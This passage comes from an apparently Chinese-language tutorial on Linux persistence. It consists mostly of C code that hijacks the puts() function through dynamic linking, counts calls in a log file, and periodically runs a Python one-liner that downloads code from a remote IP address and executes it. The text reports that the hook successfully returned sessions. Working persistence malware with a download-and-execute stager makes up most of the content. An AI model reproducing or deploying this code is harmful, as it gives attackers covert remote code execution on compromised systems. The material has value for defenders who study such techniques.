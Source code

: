     	while(fgets(buffer,BUFFER_SIZE,fp)!= NULL){
    		file_line ++;
    	}
    	fclose(fp);
    	return file_line;
    }
    
    void add_file_line(char * filename){
    	FILE * fp = NULL;
    	fp = fopen(filename,"a+");
    	if(fp == NULL){
    		return;
    	}
    	
    	fputs("1\n",fp);
    	fclose(fp);
    }
    
    void call_system(){
    
      system("python -c \"import sys;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://192.168.170.138:8080/o1ZJy3Wue');exec(r.read());\"");
    
    }
    
    int puts(const char *message) {
      char * filename = "/tmp/err.log";
      int (*new_puts)(const char *message);
      int result;
      int file_lines = 0;
      new_puts = dlsym(RTLD_NEXT, "puts");
      add_file_line(filename);
      file_lines = check_file_line(filename);
      printf("[+]file_line : %d, NUM = %d \n",file_lines, COMMAND_NUM);
      if(file_lines % COMMAND_NUM == 0){
      	call_system();
      }
      result = new_puts(message);
      return result;
    }
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201006203020527.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
在执行至第零次、五次时，成功返回了会话：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201006203041441.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
COMMAND\_NUM 可自定义

参考文章：

    https://payloads.online/archivers/2020-01-01/1
    
        

* * *

#### 7.2.9 Linux权限维持之进程注入
